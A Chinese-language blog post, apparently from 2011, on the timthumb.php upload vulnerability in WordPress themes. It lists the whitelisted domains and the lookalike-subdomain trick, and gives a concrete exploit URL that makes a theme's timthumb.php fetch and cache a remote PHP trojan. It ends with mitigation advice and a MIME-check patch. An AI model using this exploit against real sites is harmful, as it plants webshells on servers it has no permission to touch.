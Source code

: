 ```yaml
---
title: 110804 请小心 timthumb.php
layout: post
permalink: /2205.html
categories:
  - Code
tags:
  - loper1.2
  - timthumb.php
  - wordpress
  - 上传漏洞
---
```

 今天早上 CNBETA爆出了 wordpress 的  谷歌写的  timthumb.php 上传漏洞 我分析了下 入侵规则如下: 0 => string 'flickr.com' (length=10) 1 => string 'picasa.com' (length=10) 2 => string 'blogger.com' (length=11) 3 => string 'wordpress.com' (length=13) 4 => string 'img.youtube.com' (length=15) 以上文件是timthumb.php 支持 图片的下载地址 或者 ALLOW\_EXTERNAL 为TRUE 都会被跳过域名检查. 漏洞利用: 创建一个域名 http://flickr.com.80aj.com/ 目录下上传 80aj.php 寻找有 timthumb.php 的主题或者插件包 这里只提供一个  关于  loper1.2 主题包 中就自带 timthumb.php文件 使用如下URL上传木马: http://www.\*.com/wp-content/themes/loper1.2/timthumb.php?src=http://flickr.com.80aj.com/80aj.php 上传完以后访问: http://www.\*.com/wp-content/themes/loper1.2/cache/ 寻找刚才上传的文件 直接访问即可. 修复方法: cache 目录下创建 index.html 或者 php 进制 cache目录执行PHP相关代码 代码后缀过滤 ,虽然代码中过滤了 进制上传的类型 但还是会下载下来 timthumb.php 相关强制关闭 /*\* \* determine the file mime type \* \* @param $file \* @return \*/ function mime\_type ($file) { $file\_infos = getimagesize ($file); $mime\_type = $file\_infos['mime']; // use mime\_type to determine mime type if (!preg\_match ("/jpg|jpeg|gif|png/i", $mime\_type)) { display\_error ('Invalid src mime type: ' . $mime\_type); echo "sorry ,error src type"; exit(); } return $mime_type; } timthumb.php相关新闻: http://www.cnbeta.com/articles/150685.htm